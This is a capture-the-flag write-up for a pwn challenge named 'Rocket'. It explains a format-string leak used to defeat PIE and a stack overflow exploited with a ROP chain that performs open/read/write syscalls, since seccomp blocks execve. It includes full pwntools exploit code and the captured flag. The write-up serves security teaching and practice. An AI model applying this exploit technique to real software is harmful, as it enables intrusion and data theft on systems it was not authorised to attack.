

# Rocket (pwn)

## analysis
As a result of checksec, there is no canary but PIE is enable.  
  

Put the binary in ghidra. We can found that there are a lot of ROPgadgets.  

  
  


In order to use these gadgets, we have to leak the base address of the binary because of PIE.  
In `secure` function, seccomp is used to forbid `execve` function. Thus we cannot make a plan for `system("/bin/sh")` or `execve("/bin/sh", NULL, NULL)`, use "Open, Read, Write" to obtain the flag instead of those.  


In vuln function, there are vulnerability for format-sting bug and stack buffer overflow. 


# Exploit
The plan for exploit:  
1. Send fsb stiring (`gets`)
2. Leak the elf base. (`printf`)
3. Send ROP payload(`gets`). The plan for ROP is below:
```
read(0, bss+0x200, 8); //flag.txt
fd = open(bss+0x200, RDONLY);
read(3/*hard-coded of fd*/, bss+0x210, 0x100);
write(1, bss+0x210, 0x100);
```
This is my exploit code.
```
def exploit():
    payload = b"%15$p"
    io.sendline(payload)
    io.recvuntil("Welcome: ")
    leak = io.recvline()[0:-1]
    base = int(leak, 16) - (elf.symbols["main"]+24)
    print("elf base: ", hex(base))
    elf.address = base

    mov_rax_rsi = p64(base + 0x14e5)
    pop_rdx = p64(base + 0x14be)
    pop_rsi_r15 = p64(base + 0x1689)
    pop_rdi = p64(base + 0x168b)
    syscall_ret = p64(base + 0x14db)
    
    name = elf.bss() + 0x200
    buf = elf.bss() + 0x210
    

    padding = b'a'*0x48
    payload = padding + \
            pop_rsi_r15 + p64(0) + p64(0) + \
            mov_rax_rsi + \
            pop_rsi_r15 + p64(name) + p64(0) + \
            pop_rdx + p64(8) + \
            pop_rdi + p64(0) + \
            syscall_ret
            #read(0, name, 8)
    payload += pop_rsi_r15 + p64(2) + p64(0) + \
            mov_rax_rsi + \
            pop_rdi + p64(name) + \
            pop_rsi_r15 + p64(0) + p64(0) + \
            syscall_ret
            #open(name, RDONLY)
    payload += pop_rsi_r15 + p64(0) + p64(0) + \
            mov_rax_rsi + \
            pop_rsi_r15 + p64(buf) + p64(0) + \
            pop_rdx + p64(0x100) + \
            pop_rdi + p64(3) + \
            syscall_ret
            #read(3, buf, 0x100)
    payload += pop_rsi_r15 + p64(1) + p64(0) + \
            mov_rax_rsi + \
            pop_rsi_r15 + p64(buf) + p64(0) + \
            pop_rdx + p64(0x100) + \
            pop_rdi + p64(1) + \
            syscall_ret
            #write(1, buf, 0x100)

    io.sendline(payload)
    io.send(b"flag.txt")
```
Flag: `shctf{1-sma11-St3p-f0r-mAn-1-Giant-l3ap-f0r-manK1nd}`
